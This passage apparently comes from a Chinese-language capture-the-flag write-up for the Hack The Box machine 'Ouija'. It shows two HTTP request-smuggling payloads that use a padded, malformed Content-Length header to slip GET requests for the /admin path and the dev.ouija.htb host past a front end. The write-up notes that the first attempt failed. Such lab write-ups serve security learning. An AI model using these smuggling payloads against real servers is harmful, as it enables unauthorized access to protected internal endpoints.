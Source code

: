    

   尝试利用http走私访问http://ouija.htb/admin,

   ```
   POST /index HTTP/1.1
   
   Host: ouija.htb
   
   Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa: 
   
   Content-Length: 39
   
   
   
   GET http://ouija.htb/admin HTTP/1.1
   
   X: GET / HTTP/1.1
   
   Host: ouija.htb
   
   
   ```

   上述请求发送两次，但是访问失败。

   ![image-20231206173513942](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072319438.png)

   

   尝试利用http走私访问http://dev.ouija.htb/

   ```
   POST /index HTTP/1.1
   
   Host: ouija.htb
   
   Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa: 
   
   Content-Length: 39
   
   
   
   GET http://dev.ouija.htb/ HTTP/1.1
   
   X: GET / HTTP/1.1
   
   Host: ouija.htb
   
   
   ```
